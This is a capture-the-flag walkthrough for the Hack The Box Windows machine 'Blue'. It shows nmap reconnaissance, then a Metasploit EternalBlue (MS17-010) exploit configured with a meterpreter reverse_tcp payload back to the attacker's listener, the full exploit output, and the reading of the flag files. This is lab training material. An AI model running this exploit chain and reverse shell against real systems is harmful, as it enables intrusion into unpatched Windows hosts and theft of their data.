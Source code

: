 ```yaml
---
layout: default
title: "Blue"
tags: hackthebox windows easy
---
```


| OS       | Difficulty | Points | Release Date | IP Address  |
|----------|------------|--------|--------------|-------------|
| Windows  | Easy       | 20     | 28 July 2017 | 10.10.10.40 |



# Skills

* NMap
* Metasploit

# Information Gathering

## Nmap

```bash
sudo nmap -A -T4 -p- 10.10.10.4
```

This was the initial nmap scan. Some key things to note are:
* ```139/tcp open microsoft-ds```
* ```Host: HARIS-PC``` (Noted as a possible username)

```bash
PORT      STATE SERVICE      VERSION
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49155/tcp open  msrpc        Microsoft Windows RPC
49156/tcp open  msrpc        Microsoft Windows RPC
49157/tcp open  msrpc        Microsoft Windows RPC
Service Info: Host: HARIS-PC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: -18m15s, deviation: 34m36s, median: 1m42s
| smb-os-discovery: 
|   OS: Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1:professional
|   Computer name: haris-PC
|   NetBIOS computer name: HARIS-PC\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2020-07-10T22:30:10+01:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2020-07-10T21:30:07
|_  start_date: 2020-07-10T10:57:21
```

# Exploitation

## Searching for the Exploit

Once I had found my attack vector, all that was left was the fun part: exploitation.
I firstly had to find the Metasploit module that contained the ```MS17-010``` exploit.

```bash
msf5 > search ms17-010

Matching Modules
================

   #  Name                                           Disclosure Date  Rank     Check  Description
   -  ----                                           ---------------  ----     -----  -----------
   0  auxiliary/admin/smb/ms17_010_command           2017-03-14       normal   No     MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Command Execution
   1  auxiliary/scanner/smb/smb_ms17_010                              normal   No     MS17-010 SMB RCE Detection
   2  exploit/windows/smb/ms17_010_eternalblue       2017-03-14       average  Yes    MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption
   3  exploit/windows/smb/ms17_010_eternalblue_win8  2017-03-14       average  No     MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption for Win8+
   4  exploit/windows/smb/ms17_010_psexec            2017-03-14       normal   Yes    MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Code Execution
   5  exploit/windows/smb/smb_doublepulsar_rce       2017-04-14       great    Yes    SMB DOUBLEPULSAR Remote Code Execution

msf5 > use 2
```

## Setting Module Options
Then, I configured the module to exploit the target machnine (```10.10.10.40```) and to open up a TCP listener on my machine (```10.10.14.30```).

```bash
msf5 exploit(windows/smb/ms17_010_eternalblue) > set RHOSTS 10.10.10.40
RHOSTS => 10.10.10.40
msf5 exploit(windows/smb/ms17_010_eternalblue) > set LHOST 10.10.14.30
LHOST => 10.10.14.30
``` 

## Setting Payload & Running Exploit
      
After that, I set the payload to a staged meterpreter shell rather than the default unstaged generic one and exploited!

```bash
msf5 exploit(windows/smb/ms17_010_eternalblue) > set payload windows/x64/meterpreter/reverse_tcppayload => windows/x64/meterpreter/reverse_tcp
msf5 exploit(windows/smb/ms17_010_eternalblue) > exploit

[*] Started reverse TCP handler on 10.10.14.30:4444 
[*] 10.10.10.40:445 - Connecting to target for exploitation.
[+] 10.10.10.40:445 - Connection established for exploitation.
[+] 10.10.10.40:445 - Target OS selected valid for OS indicated by SMB reply
[*] 10.10.10.40:445 - CORE raw buffer dump (42 bytes)
[*] 10.10.10.40:445 - 0x00000000 57 69 6e 64 6f 77 73 20 37 20 50 72 6f 66 65 73 Windows 7 Profes
[*] 10.10.10.40:445 - 0x00000010 73 69 6f 6e 61 6c 20 37 36 30 31 20 53 65 72 76 sional 7601 Serv
[*] 10.10.10.40:445 - 0x00000020 69 63 65 20 50 61 63 6b 20 31 ice Pack 1 
[+] 10.10.10.40:445 - Target arch selected valid for arch indicated by DCE/RPC reply
[*] 10.10.10.40:445 - Trying exploit with 12 Groom Allocations.
[*] 10.10.10.40:445 - Sending all but last fragment of exploit packet
[*] 10.10.10.40:445 - Starting non-paged pool grooming
[+] 10.10.10.40:445 - Sending SMBv2 buffers
[+] 10.10.10.40:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
[*] 10.10.10.40:445 - Sending final SMBv2 buffers.
[*] 10.10.10.40:445 - Sending last fragment of exploit packet!
[*] 10.10.10.40:445 - Receiving response from exploit packet
[+] 10.10.10.40:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
[*] 10.10.10.40:445 - Sending egg to corrupted connection.
[*] 10.10.10.40:445 - Triggering free of corrupted buffer.
[*] Command shell session 1 opened (10.10.14.30:4444 -> 10.10.10.40:49159) at 2020-07-10 23:14:29 +0100
[+] 10.10.10.40:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.10.10.40:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.10.10.40:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
```    

# User Flag
```bash
meterpreter > cd Desktop
meterpreter > ls 
Listing C:\users\haris\Desktop
==============================

Mode              Size  Type   Last Modified                Name
----              ----  ----   -------------                ----
100666/rw-rw-rw-  282   fil    2017-07-14 14:45:52 +0100    desktop.ini
100666/rw-rw-rw-  32    fil    2017-07-21 07:54:02 +0100    user.txt

meterpreter > cat user.txt
```


# Root Flag
```bash
meterpreter > cd /users/Administrator/Desktop
meterpreter > ls 
Listing C:\users\Administrator\Desktop
==============================

Mode              Size  Type   Last Modified                Name
----              ----  ----   -------------                ----
100666/rw-rw-rw-  282   fil    2017-07-14 07:56:36 +0100    desktop.ini
100444/r--r--r--  32    fil    2017-07-21 07:56:49 +0100    root.txt

meterpreter > cat root.txt
```